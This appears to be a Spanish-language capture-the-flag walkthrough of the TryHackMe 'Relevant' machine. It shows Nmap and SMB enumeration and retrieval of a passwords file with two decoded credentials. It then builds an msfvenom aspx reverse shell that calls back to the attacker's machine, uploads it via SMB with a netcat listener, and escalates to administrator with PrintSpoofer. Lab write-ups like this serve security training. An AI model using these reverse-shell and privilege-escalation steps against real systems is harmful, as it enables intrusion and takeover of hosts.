# Guía de Explotación - TryHackMe Relevant

## 1. Reconocimiento

Iniciamos el reconocimiento con un escaneo de Nmap utilizando el siguiente comando:

```bash
nmap -sC -A -Pn IP_MAQUINA_ATACADA
```

El escaneo revela los siguientes puertos abiertos:
- **80/TCP** (HTTP - Servidor Web IIS)
- **139/TCP** (RPC - Microsoft Windows RPC)
- **139/TCP** (SMB - Server Message Block)
- **335/TCP** (SMB - Server Message Block)
- **3389/TCP** (RDP - Escritorio Remoto)
- **49663/TCP** (HTTP - Servidor Web IIS)



## 2. Explotacion

Vamos a explotar el SMB, para ello vamos a usar la herramienta `smbclient`.

Al ejecutar el siguiente comando, se revelarán los recursos compartidos disponibles en el destino:

```bash
smbclient -L \\\\IP_MAQUINA_ATACADA\\
```



Encontramos que hay acción llamada `nt4wrksv`.

Para llevar a cabo una enumeración más completa de este recurso compartido, tendremos que especificar el nombre del recurso compartido de la siguiente manera:

```bash
smbclient \\\\IP_MAQUINA_ATACADA\\nt4wrksv
```



Hemos obtenido con éxito acceso a la acción de SMB.

Vemos un archivo interesante, `passwords.txt`, nos lo descargamos y lo visualizamos.

```bash
get passwords.txt
cat passwords.txt
```



Lo desciframos con [CyberChef](https://gchq.github.io/CyberChef/)




```txt
Bob - !P@$$W0rD!123
```



```txt
Bill - Juw4nnaM4n420696969!$$$
```

Vamos ahora a mirar su pagina web que tenia alojada, y que vimos en el escaneo de `nmap`.



La pagina principal es la pagina por defecto de Windows ISS, por lo que vamos a utilizar `gobuster` para enumerar todos los directorios.

```bash
gobuster dir -u http://IP_MAQUINA_ATACADA:49663/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

foto

Vemos que lleva el mismo nombre de recurso compartido SMB, intentemos agregar `/passwords.txt` a la URL para ver si podemos acceder a ella y, de hecho, podemos ver su contenido:



Ya sabemos que el SMB se alojan en la web, lo que podría servir como nuestro punto de entrada utilizando una `ReverseShell`.

Vamos a usar `msfvenom` para generar una reverse shell, y poder luego subirla al SMB.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP_MAQUINA_KALI LPORT=5619 -f aspx > reverseshell.aspx
```



Ahora, cargamos este archivo en el recurso compartido SMB mediante el comando `PUT`, pero primero podremos el puerto configurado a escuchar.

```bash
nc -lvnp 5619
put revereshell.aspx
```



Ahora podemos navegar a `http://IP_MAQUINA_ATACADA:49663/nt4wrksv/reverseshell.aspx`

Y cuando cargue, volvemos al puerto en escucha, y vemos que hemos obtenido acceso.



Ahora vamos a acceder al escritorio del usuario Bob, y veremos la primera flag.

```bash
cd C:\Users\Bob\Desktop
more user.txt
```



## 3. Escalada de privilegios

Vamos a verificar los privilegios del usuario actual, para ello utilzaremos el comando:

```bash
whoami /priv
```



Aquí podemos observar que el `SeImpersonatePrivilege` está habilitado. Esto me llamó la atención porque su descripción indica `Suplantar a un cliente después de la autenticación`. Esto sugiere que es posible que tengamos la oportunidad de suplantar al administrador.

Investigando por Google, vemos que se puede vulnerar. [Github](https://github.com/k4sth4/PrintSpoofer).

Ahora vamos a descargarnos el .exe, y vamos a meterlo en la maquina windows atacada.

```bash
git clone https://github.com/k4sth4/PrintSpoofer
cd PrintSpoofer
smbclient \\\\IP_MAQUINA_ATACADA\\nt4wrksv
put PrintSpoofer.exe
```



Ahora vamos ejecutarlo usando el siguiente comando:

```bash
cd C:\inetpub\wwwroot\nt4wrksv
.\PrintSpoofer.exe -i -c cmd
```

Y como podemos ver obtenemos permisos de administrador.

Ahora ya solo vamos al escritorio del Administrador, y veremos la ultima flag.

```bash
cd C:\Users\Administrator\Desktop
more root.txt
```



¡Máquina comprometida con éxito!